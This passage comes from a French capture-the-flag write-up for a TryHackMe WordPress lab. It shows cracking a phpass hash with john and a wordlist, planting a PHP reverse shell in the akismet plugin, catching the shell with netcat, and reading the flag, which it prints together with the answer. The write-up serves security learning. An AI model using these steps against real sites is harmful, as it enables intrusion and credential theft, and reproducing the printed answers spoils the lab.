On trouve un nouveau hash qui est : $P$B4fu6XVPkSU5KcKUsP1sD3Ul7G3oae1     

**Based on the results of #7, What is the password in plaint text?**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ echo '$P$B4fu6XVPkSU5KcKUsP1sD3Ul7G3oae1' > hash 
tim@kali:~/Bureau/tryhackme/write-up$ john hash -w=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (phpass [phpass ($P$ or $H$) 256/256 AVX2 8x3])
Cost 1 (iteration count) is 8192 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
teddybear        (?)
1g 0:00:00:00 DONE (2021-08-30 14:21) 25.00g/s 19200p/s 19200c/s 19200C/s jeffrey..james1
Use the "--show --format=phpass" options to display all of the cracked passwords reliably
Session completed
```

On casse le hash avec john et on trouve le mot de passe.  

La réponse est : teddybear    

**Compromise the machine and locate flag.txt**



On se connecte avec les nouveaux identifiants.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ wget  https://raw.githubusercontent.com/timruff/php-reverse-shell/master/php-reverse-shell.php -nv
2021-08-30 14:29:15 URL:https://raw.githubusercontent.com/timruff/php-reverse-shell/master/php-reverse-shell.php [5491/5491] -> "php-reverse-shell.php" [1]
tim@kali:~/Bureau/tryhackme/write-up$ sed -i 's/127.0.0.1/10.9.228.66/g' php-reverse-shell.php
```

On télécharge un reverse shell.   
On le modifie.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
listening on [any] 1234 ...
```

On écoute sur le bon port pour se connecter sur le reverse shell.    



On copie le reverse shell dans le plugin askimet.php dans Plugins-\>Plugin Editor.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl  http://wordpress.thm/wp-content/plugins/akismet/akismet.php
```

On exécute le shell.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.9.228.66] from (UNKNOWN) [10.10.33.119] 49682
Linux ubuntu 4.4.0-210-generic #242-Ubuntu SMP Fri Apr 16 09:57:56 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 05:42:01 up  4:07,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ cd /home
$ ls
stux
$ cd stux
$ ls
flag
$ cd flag	
$ ls
flag.txt
$ cat flag.txt
$ cd flag	
$ ls
flag.txt
$ cat flag.txt
thm{28bd2a5b7e0586a6e94ea3e0adbd5f2f16085c72}

```

On a un shell, on trouve un utilisateur du nom stux.   
Dans le répertoire stux on trouve un répertoire flag avec un fichier flag.txt.    
On lit flag.txt et on a notre réponse.   

La réponse est : thm{28bd2a5b7e0586a6e94ea3e0adbd5f2f16085c72}   

